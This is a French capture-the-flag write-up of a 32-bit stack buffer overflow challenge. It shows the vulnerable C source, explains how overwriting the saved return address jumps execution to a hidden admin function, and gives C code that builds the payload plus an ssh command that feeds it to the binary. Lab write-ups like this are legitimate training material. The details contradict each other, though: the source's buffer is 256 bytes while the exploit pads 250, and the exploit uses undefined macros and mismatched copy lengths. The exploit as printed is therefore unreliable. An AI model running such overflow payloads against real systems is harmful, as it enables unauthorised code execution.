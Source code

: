 ﻿# Challenge pwn2 Cybernight writeup

## Description du challenge
Comme dans le challenge #1, un identifiant pour se connecter à une machine nous est fourni:
```bash
ssh ctf@10.242.0.1 -p 2223
passwd: ***
```
Et comme dans le challenge 1, on retrouve:
- *control*: ELF Executable 32bit, stripped
- *control_v2.c*: Code source de control
	-  *ctf*: 
- *flag.txt*: Fichier contenant le flag (obviously), lisible par **root**

## Analyse du code
*control_v2.c*:
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define STRING_LEN 256

void select_action() {
    // User input
    char action[STRING_LEN];

    printf("### ACTION DISPATCHER ###\n");
    scanf("%s", action);

    if (!strcmp(action, "right")) {
        printf("# MOVED RIGHT\n");
    }
    else if (!strcmp(action, "left")) {
        printf("# MOVED LEFT\n");
    }
    else if (!strcmp(action, "up")) {
        printf("# MOVED UP\n");
    }
    else if (!strcmp(action, "down")) {
        printf("# MOVED DOWN\n");
    }
    else {
        printf("# UNRECOGNIZED COMMAND\n\n");
    }
}

// ADMIN section
void admin_panel() {
    printf("Bienvenue dans l'espace ADMIN !");
    setreuid(geteuid(), geteuid());
    system("/bin/bash -c 'cat ./flag.txt'");
}

int main() {
    select_action();
    return 0;
}
```
Le programme **lit un nombre indéfini de character avec scanf** depuis stdin et store l'entrée dans le buffer *char\* action[**250**]*
On observe une fonction  *admin_panel* qui lit *flag.txt*, mais la fonction n'est jamais appelée.
## Exploitation
La fonction *scanf* enregistrant un nombre indéfini de character sera notre point d'entrée pour exploiter une faille buffer overflow sur le buffer *action*.
Pour récuperer le flag, notre buffer overflow devra rediriger le programme vers la fonction *admin_panel*.

### Comment rediriger l'execution d'un programme depuis la stack ??
Tout d'abord il faut comprendre ce qu'il se passe lorsque l'instruction ``call fnc`` en assembleur est executée.

Lorsqu'une fonction est appelée, ses arguments sont poussés sur la stack dans l'ordre inverse (programme 32bit) ou les arguments sont passés par les registres (programme 64bit).

La valeur de EIP (registre contenant l'adresse de l'instruction à executer, le déroulement du programme) est *push* sur le haut de la stack avant le prélude de la fonction appelée.

Donc la valeur avant EBP (le bas de la stack de la fonction en cours d'exécution) est l'adresse que EIP prendra lorsque la fonction retournera.

Alors si on modifie [EBP + 4] (la stack va des adresses hautes, vers les adresses basses, d'où le *+*), on fera sauter l'exécution de notre programme à l'adresse modifiée lorsque la fonction sera terminée.
| STACK: | Size in byte |
---------|-------|
| [...] | [...] |
| RETURN ADDR | 4
| EBP (bas de la pile) | 4
| char action[] | 250

Il faut donc écrire l'adresse à laquelle nous voulons rediriger le programme: **action+254**

##  Écriture de l'exploit

Tout comme pour le premier challenge de pwn, je vais écrire un programme en *C* qui écrira notre buffer malvaillant dans un fichier. Il ne restera plus qu'à pipe l'exploit au programme.

### Définition des valeurs
Il faut commencer par savoir à quelle adresse sauter, on a pas de soucis à directement la récupérer dans la liste de symbole et de l'hardcoder dans l'exploit car il n'y a pas de randomisation d'adresse.
On récupère l'adresse des symboles avec ``objdump -t ./bin``.
```bash
 faco@archad $ objdump -t ./control | grep admin
08049379 g     F .text  00000059              admin_panel
```
L'adresse de la fonction *admin_panel* est  **0x08049379**.
```c
#define PADDING 250
#define PADDING_CHAR 0x41 // on rempli le padding de 'A'
#define EBP "BB" 				// On aurait pu recouvrir EBP avec n'importe quoi
#define ADDR_LEN 4			// Une addresse en 4B long pour un programme 32bit
#define PAYLOAD "\x79\x93\x04\x08" // ADDR de la fonction admin_panel en little endian
#define TOTAL_LEN 250 + ADDR * 2
```
On construit l'exploit dans un buffer de taille *TOTAL_LEN*

```c
char* buf = (char*)malloc(TOTAL_LEN);
memset(buf, PADDING_CHAR, PADDING);
memcpy(buf+PADDING, EBP, ADDR_LEN);
memcpy(buf+PADDING+ADDR_LEN, PAYLOAD, ADDR_LEN);
```
Puis on écrit *buf* dans un fichier *evil*
```c
  FILE *f = fopen(PATH, "w");
  if (!f) {
    printf("Couldn't write file to %s\n", PATH);
    return -1;
  }
  fwrite(buf, 1, PADDING+PAYLOAD_LEN, f);
  printf("Exploit written to %s\n", PATH);
```

### Exploitation
```bash
$ ssh ctf@10.242.0.1 -p 2223 'bash -c ~/control' < evil
### ACTION DISPATCHER ###
# UNRECOGNIZED COMMAND

{FLAG}
Bienvenue dans l'espace ADMIN !
```
